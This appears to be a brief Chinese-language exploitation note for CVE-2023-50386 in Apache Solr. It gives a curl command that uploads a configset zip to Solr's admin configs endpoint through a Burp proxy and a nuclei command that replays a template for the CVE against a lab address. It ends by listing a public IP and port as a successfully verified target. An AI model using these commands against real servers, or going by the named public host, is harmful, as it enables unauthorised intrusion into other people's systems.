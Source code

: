 通过 curl 代理抓包
.\curl.exe -X POST --header "Content-Type:application/octet-stream" --data-binary "@conf1.zip" "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf1" --proxy http://127.0.0.1:8080

然后通过 nuclei-burp 插件重放
nuclei -v -t CVE-2023-50386.yaml -u http://192.168.136.130:8983/

验证成功靶机
35.225.0.146:8983

